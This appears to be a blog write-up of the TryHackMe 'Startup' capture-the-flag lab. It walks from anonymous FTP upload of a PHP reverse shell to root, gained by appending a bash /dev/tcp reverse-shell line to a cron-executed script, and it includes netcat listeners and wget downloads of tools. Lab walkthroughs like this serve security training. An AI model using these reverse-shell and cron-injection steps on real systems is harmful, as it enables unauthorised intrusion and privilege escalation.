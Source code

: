 ```yaml
---
layout: post
permalink: /posts/thm/startup
title: "Startup"
---
```


We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck! <br/>

Scan the target machine with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/startup/nmap.png)

From the scan result we can see there is open port 80 HTTP, 22 SSH and 21 FTP. We can also notice that anonnymous login is enabled on FTP. Let's login and see whether we will be able to find something there.

```
ftp <IP>
```

When it promped for username provide `anonymous`

![ftp](/assets/images/thm/startup/ftp.png)

There are two files and one directory which is empty. You can download the files with the following command `get <FILLE_NAME>` <br/>

Let's read the text file.

![notice](/assets/images/thm/startup/notice.png)

Hmm... probably we'll be able to upload file into FTP which we'll be accessible through the website. I wasn't able to open the jpg file. Let's visit the website.

![website](/assets/images/thm/startup/website.png)

Nothing useful. Try to scan for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://<IP>/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

![gobuster](/assets/images/thm/startup/gobuster.png)

We have found `files` directory. Let's visit it.

![files](/assets/images/thm/startup/files.png)

These are the files from FTP which we had visited. Let's try to upload reverse shell script. I'm going to use this one `https://github.com/pentestmonkey/php-reverse-shell` Don't forget to change the IP address with your attacking machine IP and desired port. </br>

Go again to the FTP server and navigate to `ftp` folder. From there you can execute the following command `put <FILE_NAME>` to upload your reverse shell script.

![upload](/assets/images/thm/startup/upload.png)

Your script has been uploaded successfully. Go and visit `http://<IP>/files/ftp/` to see whether we'll find your script.

![script](/assets/images/thm/startup/script.png)

Nice, it's here. Start netcat listener on your machine with the port you set in the script.

```
nc -lvnp <PORT>
```

Once the listener is set try to reach the script. It will try loading and you should have shell access in your terminal.

![shell](/assets/images/thm/startup/shell.png)

Now try to find the secret spicy soup recepi. </br>

If list the root directory `/` you will find an interesting folder `incidents`.

![incidents](/assets/images/thm/startup/incidents.png)

How we can download this file. I'm going to start a python server.

```
python -m SimpleHTTPServer
```

Now on your machine execute the following command to download the pcapng file.

```
wget http://<TARGET_MACHINE_IP>:8000/suspicious.pcapng
```

Now we are going to use Wireshark to open thw file.

![wireshark](/assets/images/thm/startup/wireshark.png)

Looking trough the packets I find out that someone has also already hack Spice Hut. Right click on packet 35 and select Follow -> TCP Stream

![pass](/assets/images/thm/startup/pass.png)

Someone has tried to see whether user lennie has any sudo rights. I tried to ssh with this username and password but it wasn't successfull.

![ssh](/assets/images/thm/startup/ssh.png)

Then I decided to try to switch the user from the shell which we have. but first wee need to stabilize our shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

`CTRL+Z` to background the process and go back to the local host. Execute `stty raw -echo` and after that `fg + ENTER` to go back to the reverse shell.

![stabilize](/assets/images/thm/startup/stabilize.png)

Now we should be able to switch to lennie

```
su lennie
```

Try to find the user flag. </br>

Now we need to find a way to escalate our priviliges. As awlays I tried to check whether lennie has any sudo right with `sudo -l` but lennie doesn't have any rights. What can we do then? There is a folder `scripts` in lennie home directory, let's visit it. There are two files.

![ls-la](/assets/images/thm/startup/ls-la.png)

planner.sh is owned by root and we are not able to write in it but we can read it.

![cat](/assets/images/thm/startup/cat.png)

The script can executes other scrpit print.sh

![print](/assets/images/thm/startup/print.png)

Probably planner.sh is runned by cronjob but let's check that. We are going to use `pspy64`. It's a tool which snoop on processes without need root permissions. <br>

start python server on your machine

```
python3 -m httpp.server
```

Download it on the target machine

```
wget http://<YOUR_IP>:8000/pspy64
```

![pspy64](/assets/images/thm/startup/pspy64.png)

![pspy-scan](/assets/images/thm/startup/pspy-scan.png)

As we thought planner.sh is run by cronjob as root </br>

So, we are the owner of print.sh. We can add some additional script in it. Here you can find some reverse shell cheat sheet `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` </br>

Change the script with your IP address

```
echo "bash -i >& /dev/tcp/<IP>/5555 0>&1" >> /etc/print.sh
```

We also need to start listener on our machine

```
nc -lvnp 5555
```

Wait a little bit and the script will be executed automatically via cronjob. 

![root](/assets/images/thm/startup/root.png)

Here we go, we have root access.
